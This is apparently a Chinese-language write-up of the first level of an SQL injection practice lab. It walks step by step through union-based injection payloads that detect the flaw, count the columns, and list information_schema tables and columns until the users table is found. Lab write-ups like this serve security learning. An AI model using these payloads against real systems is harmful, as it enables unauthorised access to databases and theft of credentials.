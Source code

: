 # Basic Challenges

## 第一关

![image-20220115150656786](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115150656786.png)

通过输入

```
http://172.16.12.96:86/Less-1/?id=1
```

将id作为变量输入

![image-20220115150904205](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115150904205.png)

输入单引号闭合查看

```
http://172.16.12.96:86/Less-1/?id=1'
```

![image-20220115150944804](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115150944804.png)

可以看出有个LIMIT语句从第0个数据开始取，取出一个数据

数据库是Mysql数据库

利用

```sql
'and '1'='1
'and '1'='2
```

判断注入

![image-20220115151251846](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115151251846.png)

![image-20220115151302785](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115151302785.png)

存在SQL注入漏洞

查看返回值数量

```sql
'+union+select+null,+null,+null--+
```

![image-20220115151637831](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115151637831.png)当使用上述语句时，返回值正常，返回三个值

继续猜解，判断三个返回值的数据类型，发现未报错但并不显示。

上网查询学习到

==虽然数据进行了正常的返回，但因为有Limit的限制，选取了第一个数值所以后面信息并没有显示出，需要查询一个并不存在的值，使id查询为空==

```sql
' union select 'a', 'l', 'a'--+
```

![image-20220115153500041](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115153500041.png)

第二和第三的是返回字符类型

构造语句查询information_schema.tables试试

```sql
' union select null, table_name, null from information_schema.tables--+
```

![image-20220115181418647](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115181418647.png)

由此可见对输出的内容有个数限制，故用group_concat函数，但group_concat函数在Mysql中有group_concat_max_len的长度限制。如果想通过一个group_concat一次显示所有表名是不可能的，故添加限制。

```sql
' union select null, group_concat('---',table_name), null from information_schema.tables where table_name like '%user%'
```

![image-20220115182129289](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115182129289.png)

运气好看到有users表

```sql
' union select null, group_concat('---',column_name), null from information_schema.columns where table_name='users'--+
```

![image-20220115182300740](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115182300740.png)

对用户名和密码select即可